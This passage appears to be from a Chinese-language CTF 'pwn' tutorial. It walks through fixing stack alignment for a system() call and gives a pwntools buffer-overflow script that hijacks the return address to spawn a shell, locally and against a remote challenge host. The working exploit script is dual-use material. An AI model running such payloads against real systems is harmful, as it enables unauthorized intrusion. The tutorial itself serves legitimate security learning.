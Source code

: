 ![system - 本地利用](/assets/images/learn/pwn-run-exp-local_system.png)

但是程序卡在了 system 函数的内部的一条命令:

```ASM
0x7e3aee45842b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0
```

这个命令涉及到 `xmm` 寄存器，`xmm` 寄存器为 128 位，需要 `rsp+0x50` 的最低一个 16 进制位为 `0`.

一个可行的应对方法就是我们可以劫持程序的执行流到 `0x4011C2` 处，这样就能跳过一个 `push` 命令，`rsp` 自然就多了 8，就满足了 `xmm` 寄存器的要求。

修改一下地址就能拿到 shell 了

```python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.send(b'a'*0x10 + p64(0) + p64(0x4011C2))# [!code focus]

p.interactive()
```

![本地利用后门成功](/assets/images/learn/pwn-run-exp-local_success.png)

之后注释掉 `process` 函数与 `gdb.attach` 函数，换 `remote` 函数打远程靶机即可：

```python
p = remote('120.53.240.208', 6000)
```

![远程利用后门成功](/assets/images/learn/pwn-run-exp-remote_success.png)

远程利用成功。
